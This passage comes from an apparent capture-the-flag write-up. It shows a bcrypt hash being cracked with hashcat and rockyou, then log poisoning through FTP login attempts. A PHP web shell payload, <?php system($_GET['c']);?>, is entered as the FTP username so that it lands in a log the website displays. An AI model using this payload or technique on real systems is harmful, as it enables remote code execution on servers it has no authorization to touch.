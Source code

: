 Looking through the rest of the databases and tables doesn't provide anything useful.

Let's try and crack the hash we found for the Adrian user:

`hashcat -m 3200 -w 3 -D 1,2 -O hash.txt rockyou.txt`

```bash
$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we:<REDACTED>
Recovered........: 1/1 (100.00%) Digests
```

Alright we should now be able to access the website let's go back and revisit that.

<br>

## Website Digging Again

![](images/brute2.png)

We're able to login and when clicking the log button shows us what looks like only failed login attempts including some of the ones we tried. After experimentation this logs failed logins for the FTP server:

```bash
"::ffff:10.6.127.197" Sun Jul 31 16:11:52 2022 [pid 1064] [root] FAIL LOGIN: Client "::ffff:10.6.127.197" Sun Jul 31 16:11:52 2022 [pid 1073] [root] FAIL LOGIN: Client 
```

Immediately I think we'll have to use log poisoning since we're viewing a log file. I try and login to the FTP server with the following to get our code into the log file:

```bash
┌──(kali㉿kali)-[~/work]
└─$ ftp 10.10.111.4
Connected to 10.10.111.4.
220 (vsFTPd 3.0.3)
Name (10.10.111.4:kali): <?php system($_GET['c']);?>
331 Please specify the password.
Password: 
530 Login incorrect.
```

And looking back at the log:

```bash
"::ffff:10.6.127.197" Sun Jul 31 16:52:26 2022 [pid 3177] [/usr/bin/python3 ] FAIL LOGIN: Client "::ffff:10.6.127.197"
```
